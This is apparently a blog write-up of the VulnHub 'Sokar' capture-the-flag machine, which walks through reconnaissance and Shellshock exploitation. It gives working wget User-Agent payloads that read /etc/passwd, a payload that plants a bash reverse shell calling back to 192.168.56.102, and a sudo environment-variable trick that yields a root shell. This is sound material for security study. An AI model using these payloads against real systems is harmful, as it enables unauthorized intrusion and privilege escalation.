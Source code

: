 ```yaml
---
layout: post
title: "vulhub-sokar"
date: 2016-07-15 10:27:33 -0500
comments: true
categories: [vulhub, sokar, shellshock]
---
```



###Tools:

* netdiscover
* Nmap
* Nikto
* User Agent Switcher


###Vulnerability:

* [shellshock(remote)](http://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)
* [shellshock(local)](http://stackoverflow.com/questions/26041934/how-does-cve-2014-7169-work-breakdown-of-the-test-code)

<!--more-->

Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.56.0/24`

{% img  /images/blog/vulhub/sokar/Capture1.JPG   [title manually exploit [alt text]] %}

192.168.56.103 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.56.103 -p-`


{% img  /images/blog/vulhub/sokar/Capture2.JPG   [title manually exploit [alt text]] %}


port 591 is opening, looks like it is running http service.

use nikto to scan

`nikto -h 192.168.56.103:591`

nothing cool.

Use wufzz to scan

`wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.56.103/FUZZ 2>/dev/null`

{% img  /images/blog/vulhub/sokar/Capture3.JPG   [title manually exploit [alt text]] %}

find an interesting path `cgi-bin`. Thats interesting, because it reminds shellshock.

Use brower to check the web page

{% img  /images/blog/vulhub/sokar/Capture4.JPG   [title manually exploit [alt text]] %}

The web page shows result of commands `netstat` and `iostat`.

check the source code find the cgi path `/cgi-bin/cat`

{% img  /images/blog/vulhub/sokar/Capture5.JPG   [title manually exploit [alt text]] %}

start to verfiy shellshock:

```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" "http://192.168.56.103:591/cgi-bin/cat"
```

{% img  /images/blog/vulhub/sokar/Capture6.JPG   [title manually exploit [alt text]] %}

Confirmed.Also find two user names `bynarr` and `apophis`

I tried to upload reverse shell

```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/bash -i > /dev/tcp/192.168.56.102/4444 0<&1" "http://192.168.56.103:591/cgi-bin/cat"
```


failed. I guess because certain ports are allowed.

keep going...

check the files belong to bynarr:

```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /usr/bin/find / -user bynarr " "http://192.168.56.103:591/cgi-bin/cat"
```

{% img  /images/blog/vulhub/sokar/Capture8.JPG   [title manually exploit [alt text]] %}

Try to read each file I got, and find the `va/spool/mail/bynarr` is very interesting.

{% img  /images/blog/vulhub/sokar/Capture9.JPG   [title manually exploit [alt text]] %}

so now I know I can only use port 51242 to setup reverse shell.

Also I noticed that `.` is in environment variable `$PATH`, so that I can run a script in the current path firstly. 

write the reverse shell to iostat:

```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/echo -e '#/bin/bash -i >& /dev/tcp/192.168.56.102/51242 0>&1' > /home/bynarr/iostat" "http://192.168.56.103:591/cgi-bin/cat"
```

add the x attribute

```
wget -q -O- -U "() { test;};echo \"content-type: text/plain\"; echo; echo; /bin/chmod +x /home/bynarr/iostat" "http://192.168.56.103:591/cgi-bin/cat"
```

After serverl seconds I got shell:

{% img  /images/blog/vulhub/sokar/Capture10.JPG   [title manually exploit [alt text]] %}


next run `sudo -l` to check allowed commands for bynarr

{% img  /images/blog/vulhub/sokar/Capture11.JPG   [title manually exploit [alt text]] %}

so /home/bynarr/lime which is owned by root that bynarr can run.

in order to check shell shock locally. run:

`env x='() { :;}; echo vulnerable' bash -c "echo this is a test"`


local shell shock works

{% img  /images/blog/vulhub/sokar/Capture12.JPG   [title manually exploit [alt text]] %}


from the `sudo -l` output, there are many environment variables can be used. I ued USERNAME

`sudo USERNAME='() { :;}; /bin/bash' /home/bynarr/lime`

get the shell:

{% img  /images/blog/vulhub/sokar/Capture13.JPG   [title manually exploit [alt text]] %}
